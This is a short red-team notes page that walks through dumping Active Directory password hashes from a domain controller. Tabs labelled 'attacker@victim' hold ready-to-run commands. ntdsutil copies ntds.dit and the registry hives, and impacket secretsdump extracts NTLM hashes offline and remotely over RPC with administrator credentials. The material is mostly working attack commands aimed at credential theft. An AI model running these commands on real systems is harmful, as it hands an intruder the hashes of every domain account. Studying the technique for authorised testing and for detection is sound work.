 ```yaml
---
description: Dumping NTDS.dit with Active Directory users hashes
---
```


# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```text
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](../../.gitbook/assets/image%20%28109%29.png)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}



